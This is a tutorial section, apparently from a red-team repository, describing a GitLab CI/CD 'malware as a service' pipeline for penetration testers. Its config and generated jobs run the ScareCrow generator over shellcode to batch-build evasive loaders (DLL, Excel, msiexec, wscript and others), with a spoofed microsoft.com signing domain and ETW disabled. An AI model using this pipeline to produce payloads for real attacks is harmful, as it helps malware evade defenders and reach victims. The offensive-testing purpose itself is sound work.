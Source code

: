 ## Creating a Dynamic Child Pipeline

Having achieved the processing of jobs in parallel, we can further extend on the concept if we can create components of the pipeline dynamically, and further if we have the ability to introduce some configuration options into our service.

We know that malware generation tools like **ScareCrow** have different options that allow us to generate different types of artifacts, and perhaps different forms of evasion. Using **ScareCrow** as our example, we can easily implement a dynamic child pipeline based on the different types of *Loader* artifacts it can generate whereby each loader type becomes its own standalone CI/CD job.

The following concepts will be introduced in this document.

1. A YAML based configuration file with a Python script/module that can be used to lookup the configuration options.
2. The Gitlab CI/CD YAML syntax to implement a dependency based trigger which will execute a downstream child pipeline from a dynamically created Gitlab YAML file.  
3. Another Python script which uses ConfigLookup() to generate a child pipeline YAML file.

### YAML Based Configuration and Python ConfigLookup.py Module

In my early malware as a service design, it became quickly apparent that I would have to implement some sort of method for the operator to provide configuration information to the pipeline for processing.  I wanted to keep things simple, and easily digestable for the penetration testing operators and thus I settled on using YAML (https://en.wikipedia.org/wiki/YAML) as a configuration syntax.

Using our example of providing configuration for **ScareCrow**, we can create a hierarchical YAML syntax which reflects the different options we need to provide to the tool. Here is a file named "**SampleConfig.yml**" which does exactly that.

```
ScareCrow:
    loader:
        - binary
        - dll
        - control
        - excel
        - msiexec
        - wscript

    #injection: C:\\windows\\system32\\dataexchangehost.exe

    #delivery:
    #   - bits
    #   - hta
    #   - macro
    #url: https://delivery.acme.com

    ## Fake artifact signing cert uses this domain
    domain: microsoft.com

    ## Sandbox evasion only checks ifDomainJoined
    sandbox: False

    ## the below will selectively disable evasive features
    ## you probably want to keep these all at False.
    noamsi: False
    noetw: True
    nosleep: True
```

Having put this together, my next need was to create a programmatic way of looking up any option within that YAML configuration file. I turned to Python and created a small module/script which allows us to easily lookup any option and print its value back to the screen for consumption.  In this way, I can use the Python script anywhere which the YAML pipeline as needed, or even import this module into another Python script to generate a child pipeline configuration.

Below is an example of using **ConfigLookup.py** on the command line against this sample configuration file. Note that I sent the stderr output to /dev/null only for brevity as a banner is normally printed to the stderr output descriptor.

This example initially looks up ALL the options and prints out the embedded Python dictionary of results. As you can see, it is possible to "*drill down*" and lookup options deeper in the YAML as needed.

```
$ bin/ConfigLookup.py -c SampleConfig.yml 2>/dev/null ScareCrow
{'loader': ['binary', 'dll', 'control', 'excel', 'msiexec', 'wscript'], 'domain': 'microsoft.com', 'sandbox': False, 'noamsi': False, 'noetw': True, 'nosleep': True}

$ bin/ConfigLookup.py -c SampleConfig.yml 2>/dev/null ScareCrow.loader
['binary', 'dll', 'control', 'excel', 'msiexec', 'wscript']

$ bin/ConfigLookup.py -c SampleConfig.yml 2>/dev/null ScareCrow.domain
microsoft.com
```

### Gitlab Dynamic Dependency Driven Child Pipelines

The Gitlab CI/CD YAML syntax allows us to create a *trigger* which depends on an artifact from a prior stage of the pipeline. What we have to do is modify the main pipeline YAML script such that the **PreProcess** stage runs a script to dynamically produce YAML for the child pipeline, and introduces the dependency based trigger which will then execute the downstream YAML file that is generated.  This involves passing a YAML file artifact from the preprocessing stage and configuring it as a dependency in the **BakeMalware** stage.

Listed below are the changes to the Gitlab **.gitlab-ci.yml** file.

```
PreProcess:
    stage: PreProcess
    tags:
        - maas
    script:
        - export PATH=$PATH:${CI_PROJECT_DIR}/bin
        - mkdir -p /payloads/${CI_COMMIT_SHORT_SHA}/.lib
        - ln -f -s /usr/local/bin/garble /payloads/${CI_COMMIT_SHORT_SHA}/.lib/garble
        - ScareCrow_Pipeline.py -c ${CI_PROJECT_DIR}/SampleConfig.yml >.scarecrow.yml
    artifacts:
        paths:
            - .scarecrow.yml

ScareCrow:
    stage: BakeMalware
    trigger:
        include:
        - artifact: .scarecrow.yml
          job: PreProcess
        strategy: depend
```

The result of using this *trigger* section will dynamically create a pipeline run from the file named "**.scarecrow.yml**" which has been created in the **PreProcess** stage by the "**ScareCrow_Pipeline.py**" script.

#### What does ScareCrow_Pipeline.py do?

The **ScareCrow_Pipeline.py** script actually imports the ConfigLookup() functionality from the **ConfigLookup.py** module/script. Using this it creates a Gitlab YAML file which is properly formatted for the parallel child pipeline stages to be executed. While this has been executed by the **ProProcess** stage, we can easily execute it manually and see that the parallelism introduced is based upon the different *Loader* options involved with ScareCrow.

The script also takes into account the various other options configured in the **SampleConfig.yml** file which should be manually edited by the operator.

```
$ bin/ScareCrow_Pipeline.py -c SampleConfig.yml

stages:
    - ScareCrow

ScareCrow00:
    stage: ScareCrow
    tags:
        - maas
    script:
        - |
            cd /payloads/${CI_COMMIT_SHORT_SHA}
            ScareCrow -I $CI_PROJECT_DIR/shellcode/shellcode_x64.bin -Loader binary -domain microsoft.com -noetw -nosleep

ScareCrow01:
    stage: ScareCrow
    tags:
        - maas
    script:
        - |
            cd /payloads/${CI_COMMIT_SHORT_SHA}
            ScareCrow -I $CI_PROJECT_DIR/shellcode/shellcode_x64.bin -Loader dll -domain microsoft.com -noetw -nosleep

ScareCrow02:
    stage: ScareCrow
    tags:
        - maas
    script:
        - |
            cd /payloads/${CI_COMMIT_SHORT_SHA}
            ScareCrow -I $CI_PROJECT_DIR/shellcode/shellcode_x64.bin -Loader control -domain microsoft.com -noetw -nosleep -O output.js

ScareCrow03:
    stage: ScareCrow
    tags:
        - maas
    script:
        - |
            cd /payloads/${CI_COMMIT_SHORT_SHA}
            ScareCrow -I $CI_PROJECT_DIR/shellcode/shellcode_x64.bin -Loader excel -domain microsoft.com -noetw -nosleep -O output.js

ScareCrow04:
    stage: ScareCrow
    tags:
        - maas
    script:
        - |
            cd /payloads/${CI_COMMIT_SHORT_SHA}
            ScareCrow -I $CI_PROJECT_DIR/shellcode/shellcode_x64.bin -Loader msiexec -domain microsoft.com -noetw -nosleep -O output.js

ScareCrow05:
    stage: ScareCrow
    tags:
        - maas
    script:
        - |
            cd /payloads/${CI_COMMIT_SHORT_SHA}
            ScareCrow -I $CI_PROJECT_DIR/shellcode/shellcode_x64.bin -Loader wscript -domain microsoft.com -noetw -nosleep -O output.js

```

